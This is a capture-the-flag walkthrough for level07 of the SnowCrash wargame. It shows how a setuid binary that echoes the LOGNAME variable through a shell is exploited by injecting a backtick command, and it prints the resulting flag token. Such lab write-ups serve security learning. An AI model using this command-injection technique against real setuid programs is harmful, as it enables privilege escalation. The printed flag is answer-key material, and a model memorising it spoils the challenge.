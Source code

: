 # Level07

## Hint

Perhaps running this can help:
```
strings level07
````
You can also use `gdb` if that's your thing.

## Answer

Let's check our current directory:
```
level07@SnowCrash:~$ ll
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 ./
d--x--x--x 1 root    users    340 Aug 30  2015 ../
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout*
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07*
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile*
```

We have an executable file, let's run it first !
```
level07@SnowCrash:~$ ./level07
level07
```

Alright, let's run `strings level07` and see if we find any useful information:
```
level07@SnowCrash:~$ strings level07
[...]
getenv
[...]
LOGNAME
/bin/echo %s
[...]
```

So we found that the `getenv` command is executed, that there is a variable whose value is `LOGNAME` and that the `echo` command is used along with a `%s`. Let's see what our `LOGNAME` is:
```
level07@SnowCrash:~$ echo $LOGNAME
level07
```

Huh, exactly like the executable. Let's modify its value and run it again:
```
level07@SnowCrash:~$ LOGNAME=test
level07@SnowCrash:~$ ./level07
test
```

Perfect ! Now all we have to do is add some backticks to our `LOGNAME` to make it execute our getflag command:
``` 
level07@SnowCrash:~$ LOGNAME='`getflag`'
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
